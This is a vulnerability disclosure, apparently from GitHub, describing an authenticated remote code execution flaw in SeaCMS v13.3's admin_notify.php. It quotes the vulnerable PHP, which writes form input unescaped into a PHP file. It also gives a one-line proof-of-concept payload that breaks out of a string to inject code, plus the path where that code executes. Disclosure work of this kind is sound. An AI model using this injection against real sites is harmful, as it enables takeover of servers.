




## admin_notify.php RCE

### Introduction

SeaCMS v13.3 contains a remote code execution vulnerability. This vulnerability arises from the following: although `admin_notify.php` applies some restrictions on the files being edited, attackers can bypass these restrictions and write code via concatenation, allowing authenticated attackers to exploit this vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download


You can see the latest version v13.3


### Analysis, Debugging, and Vulnerability Exploitation
There is a command execution vulnerability in the latest version of Ocean CMS v13.3
The vulnerability file contains PHP code splicing in `0omeqd/admin_notify.php`, and is finally written to the file `data/admin/notify.php`. Here we can execute `phpinfo();` by passing parameters in closing double quotes.

```php
<?php header('Content-Type:text/html;charset=utf-8');  
require_once(dirname(__FILE__)."/config.php");  
CheckPurview();  
if($action=="set")  
{  
    $notify1= $_POST['notify1'];  
    $notify2= $_POST['notify2'];  
    $notify3= $_POST['notify3'];  
    $open=fopen("../data/admin/notify.php","w" );  
    $str='<?php  ';  
    $str.='$notify1 = "';  
    $str.="$notify1";  
    $str.='"; ';  
    $str.='$notify2 = "';  
    $str.="$notify2";  
    $str.='"; ';  
    $str.='$notify3 = "';  
    $str.="$notify3";  
    $str.='"; ';  
    $str.=" ?>";  
    fwrite($open,$str);  
    fclose($open);  
    ShowMsg("Settings saved successfully!","admin_notify.php");  
    exit;  
}  
?>
```

The web page is located at the backend management path `0omeqd/admin_notify.php`. We inject concatenated PHP code into the first notification field. The PoC is:

```r
1";phpinfo();$notify4 ="1
```



After accessing the PHP path, the PHP code executes successfully.

```r
data/admin/notify.php
```


